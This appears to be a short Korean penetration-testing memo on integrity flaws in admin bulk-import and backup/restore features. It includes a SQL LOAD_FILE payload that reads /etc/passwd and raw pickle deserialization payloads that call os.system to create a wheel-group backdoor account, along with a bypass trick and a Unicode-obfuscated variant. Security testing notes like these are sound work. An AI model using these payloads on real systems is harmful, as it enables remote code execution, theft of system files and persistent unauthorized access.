 # Integrity Verification

관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나
특정 설정을 백업/복구하는 기능이 있을 경우
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  
SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입

